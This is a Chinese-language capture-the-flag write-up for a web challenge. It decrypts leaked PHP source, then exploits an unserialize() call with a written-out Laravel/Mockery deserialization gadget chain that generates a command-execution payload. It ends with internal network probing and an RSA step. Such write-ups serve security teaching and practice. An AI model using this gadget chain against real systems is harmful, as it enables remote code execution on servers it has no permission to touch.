





## warmup
先看robots.txt可以看到一小段加密程序  

访问u_c4nNot_s3e_me能拿下一份二进制文件，逆向简单加密算法就能拿到源码了  
```python
with open("u_c4nNot_s3e_me","rb") as f:
	a = f.read()
	l = len(a)
	a = map(ord,a)
	for i in range(l-1,0,-1):
		a[i-1] = a[i-1]^a[i]
	code = ''
	for i in range(l):
		num = (a[i]-i) % 128
		code += chr(num)
print code
```
解密以后就是这部分源码  
```php
<?php public function index(){ echo 'Welcome to Hacker World !'; if (isset($_GET['z'])){$z = $_GET['z']; unserialize($z);}}
```
然后就是框架的反序列化利用了，exp如下  
```php
<?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast{
        protected $event;
        protected $events;
        function __construct($event, $events)
        {
            $this->event = $event;
            $this->events = $events;
        }
    }
}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;
        function __construct($queueResolver)
        {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace Illuminate\Broadcasting{
    class BroadcastEvent{
        protected $connection;
        function __construct($connection)
        {
            $this->connection = $connection;
        }
    }
}

namespace Mockery\Loader{
    class EvalLoader{
        public function load(MockDefinition $definition)
        {}
    }
}

namespace Mockery\Generator{
    class MockDefinition{
        protected $config;
        protected $code;
        function __construct($config)
        {
            $this->config = $config;
        }
    }
    class MockConfiguration{
        protected $name;
        function __construct()
        {
            $this->name = "abcd";
        }
    }
}

namespace {
    $EvalLoader = new Mockery\Loader\EvalLoader();
    $queueResolver = [$EvalLoader,"load"];
    $MockConfiguration = new Mockery\Generator\MockConfiguration();
    $MockDefinition = new Mockery\Generator\MockDefinition($MockConfiguration);
    $BroadcastEvent = new Illuminate\Broadcasting\BroadcastEvent($MockDefinition);
    $Dispatcher = new Illuminate\Bus\Dispatcher($queueResolver);
    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($BroadcastEvent, $Dispatcher);
    echo urlencode(serialize($PendingBroadcast));
}
```

可以执行命令，读一下flag  

然后发现是fake_flag...  
估计是要看下内网，ip a看下网络

有个192.168.0.3/20，看下80服务能找到  

然后就是做简单rsa题就出flag了  
key是227104485496386719944837215776122348051  
